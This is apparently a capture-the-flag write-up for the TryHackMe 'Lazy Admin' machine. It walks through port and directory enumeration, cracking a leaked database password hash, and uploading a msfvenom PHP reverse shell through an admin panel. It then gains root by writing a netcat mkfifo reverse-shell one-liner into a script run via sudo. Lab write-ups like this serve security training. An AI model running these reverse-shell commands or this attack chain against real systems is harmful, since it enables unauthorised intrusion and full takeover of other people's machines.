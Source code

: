 # Lazy Admin

## Reconnaissance
Let's start the enumeration with scanning the ports, which we can do with nmap. This can be done with the command nmap -A -T4 <ip>.

![nmap](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/nmap.png)

As we can see there are two ports open, port 22 for ssh and port 80 for http. The SSH version running is OpenSSH 7.2p2 and the server is an Apache server running on ubuntu. For further enumeration we can use ffuf with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/FUZZ"```.

![fuzzing1](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/fuzzing.png)

```/content``` seems interesting, so let's check it out. Hmm, that did not give us much.

![content](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/content.png)

Let's try fuzzing even deeper, we can do this with the command ```ffuf -w /usr/share/wordlists/dirb/big.txt -u "http://<ip>/content/FUZZ"```

![fuzzing2](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/fuzzing2.png)

```/as``` seems interesting, so lets check it out, oh an admin panel. We could try to brute-force it, but let's continue searching to see if we can find anything else that might be interesting.

![login](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/login.png)

We can find an backup of an mysql database at ```<ip>/content/inc/mysql_backup```, lets try downloading it to see what it contains.

![sql](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/sql.png)

Here we can find both a username and an hashed password, maybe if we can crack the password we can use it to login to the admin panel.

![sql_pass](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/sql_pass.png)

I used ```https://crackstation.net/``` to crack the password.

![pass_cracked](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/pass_cracked.png)

Now we can log in to the admin panel. 

![admin](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/admin_panel.png)

## Getting a shell
Now that we have gotten into the admin panel, it's time to look for a way to get a shell. After looking around on the admin panel for a litte while I found an upload button, lets see if we can upload a reverse shell through the upload form. 

![upload](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/upload.png)

We can create an reverse shell with the command ```msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php```. That worked. Now we can go to ```<ip>/content/attachment/shell.php5``` and run the file while we try to catch the reverse shell. We can catch the reverse shell with metasploit (msfconsole). I used the payload php/meterpreter_reverse_tcp. Set the options LHOST <your ip> and LPORT <choosen port>.

![msf](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/msf.png)

That worked, we now have gotten into the computer.

![user](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/user.png)

## Privilege Escalation
Now that we have gotten into the computer it's time for privilege escalation, so let's do some enumeration. sudo -l shows us that we can use ```/user/bin/perl /home/itguy/backup.pl``` as root.

![priv_esc](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc.png)

Let's check out the ```/home/itguy/backup.pl``` file.

![priv_esc2](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc2.png)

Ok, now lets check out the ```/etc/copy.sh``` file.

![priv_esc3](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/priv_esc3.png)

It seems like most of the job is done for us. Let's change the ip to our ip. We can do this with ```echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your_ip> 5554 >/tmp/f" > /etc/copy.sh```

We can now try to catch it with netcat on our computer with ```nc -nvlp 5554``` and then run ``backup.pl`` with ```sudo /usr/bin/perl /home/itguy/backup.pl```

![root](https://github.com/nicolai-h/tryhackme/blob/main/lazy_admin/images/root.png)

That worked, we have now root access on the machine.
